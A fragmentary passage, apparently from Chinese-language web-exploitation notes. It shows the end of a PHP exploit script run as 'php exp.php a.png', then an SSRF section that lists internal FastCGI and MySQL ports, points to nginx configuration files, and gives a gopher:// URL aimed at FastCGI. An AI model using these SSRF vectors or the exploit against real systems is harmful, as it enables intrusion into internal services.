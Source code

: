 ```
            return $short;
        }

        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>
php exp.php a.png
```

## (九) SSRF

### 1. fastcgi

```
127.0.0.1:9000
```

### 2. mysql

```
127.0.0.1:3306
```

### 3 nginx配置文件

```
nginx可以通过fastcgi对接php，所以nginx的配置文件中也会有一血重要信息，此外还有端口转发等
```

```
gopher://127.0.0.1:9000/
```

